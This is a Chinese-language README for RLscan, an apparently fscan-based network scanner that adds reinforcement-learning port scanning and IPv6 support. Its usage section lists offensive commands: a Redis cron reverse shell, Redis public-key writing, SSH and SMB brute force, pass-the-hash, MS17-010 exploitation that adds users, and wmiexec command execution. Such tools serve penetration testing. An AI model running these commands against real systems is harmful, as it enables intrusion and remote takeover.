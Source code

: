# RLscan

该项目仅用于概念验证。共同作者：@Lya0

[English](README_EN.md)

#  AI

加入了自适应学习和强化学习，支持IPv6。

+ IPv6 扫描

在IPv6扫描之前确定自己的网络支持IPv6

多个目标
```
RLscan.exe -hf "ip.txt"
```
单个目标
```
RLscan.exe -h "2408:8720:806:300:70::88"
```

##  🤖 自适应学习

在3秒内完成对整机65536个端口的扫描。

+ 异步扫描计算有效利用网络宽带和CPU资源;
+ 流量控制算法+异步计算svn == 高扫描速率 + 低资源占用;
+ 通过计算ulimit (进程资源使用限制) 和RTT (往返时延) 自适应调整请求接口数和数据包发送速率;
+ 他会合理的拉满宽带和内存，但不会引发硬件问题;

```
RLscan.exe -h "127.0.0.1" -AL 1
```

##  🤖 强化学习

> 所有实现均局限在10000之前，限制性能消耗；

### 🐳 Q-learning（Demo）

在全端口扫描时，进一步提高准确率和尽量减少需要扫描的端口。

+ 纯机器学习，实际效果基于网络性能;
+ Q-learning算法纯 GO 实现;
+ 样本10000的情况下，端口覆盖率87%;

```
RLscan.exe -h "127.0.0.1" -RL 1
```

![效果图](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20231225123928.png)

###  DQN

待实现。

###  PPO

+ 对于基于策略的实现，通过端口之间打开的关联性矩阵进行抉择最优策略；
+ 关联性计算具体参考[贝叶斯公式](https://baike.baidu.com/item/%E8%B4%9D%E5%8F%B6%E6%96%AF%E5%85%AC%E5%BC%8F/9683982)

待实现。

# 使用说明

<details> <summary>使用说明</summary>

简单用法
``` 
RLscan.exe -h 192.168.1.1/24  (默认使用全部模块)
RLscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
RLscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
RLscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
RLscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
RLscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
RLscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
RLscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
RLscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
RLscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
RLscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
RLscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
RLscan.exe -hf ip.txt  (以文件导入)
RLscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
RLscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
RLscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
RLscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
RLscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
RLscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
RLscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```
编译命令
```
go build -ldflags="-s -w " -trimpath main.go
upx -9 RLscan.exe (可选,压缩体积)
```
arch用户安装  
`yay -S RLscan-git  或者 paru -S RLscan-git`

完整参数
```
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
  -no
        扫描结果不保存到文件中
  -nobr
        跳过sql、ftp、ssh等的密码爆破
  -nopoc
        跳过web poc扫描
  -np
        跳过存活探测
  -num int
        web poc 发包速率  (default 20)
  -o string
        扫描结果保存到哪 (default "result.txt")
  -p string
        设置扫描的端口: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        新增需要扫描的端口,-pa 3389 (会在原有端口列表基础上,新增该端口)
  -path string
        fcgi、smb romote file path
  -ping
        使用ping代替icmp进行存活探测
  -pn string
        扫描时要跳过的端口,as: -pn 445
  -pocname string
        指定web poc的模糊名字, -pocname weblogic
  -proxy string
        设置代理, -proxy http://127.0.0.1:8080
  -user string
        指定爆破时的用户名
  -userf string
        指定爆破时的用户名文件
  -pwd string
        指定爆破时的密码
  -pwdf string
        指定爆破时的密码文件
  -rf string
        指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)
  -rs string
        redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)
  -silent
        静默扫描,适合cs扫描时不回显
  -sshkey string
        ssh连接时,指定ssh私钥
  -t int
        扫描线程 (default 600)
  -time int
        端口扫描超时时间 (default 3)
  -u string
        指定Url扫描
  -uf string
        指定Url文件扫描
  -wt int
        web访问超时时间 (default 5)
  -pocpath string
        指定poc路径
  -usera string
        在原有用户字典基础上,新增新用户
  -pwda string
        在原有密码字典基础上,增加新密码
  -socks5
        指定socks5代理 (as: -socks5  socks5://127.0.0.1:1080)
  -sc 
        指定ms17010利用模块shellcode,内置添加用户等功能 (as: -sc add)
```

</details>

# 参考链接

[RustScan](https://github.com/RustScan/RustScan);

[masscan](https://github.com/robertdavidgraham/masscan)

[Which Doors Are Open: Reinforcement Learning-based Internet-wide Port Scanning](https://scholar.google.com/citations?view_op=view_citation&hl=en&user=dpcpsXQAAAAJ&citation_for_view=dpcpsXQAAAAJ:0EnyYjriUFMC);

[Landing Reinforcement Learning onto Smart Scanning of The Internet of Things](https://ieeexplore.ieee.org/document/9796737);

[近端策略优化算法](https://arxiv.org/abs/1707.06347)

[url-docen]: README
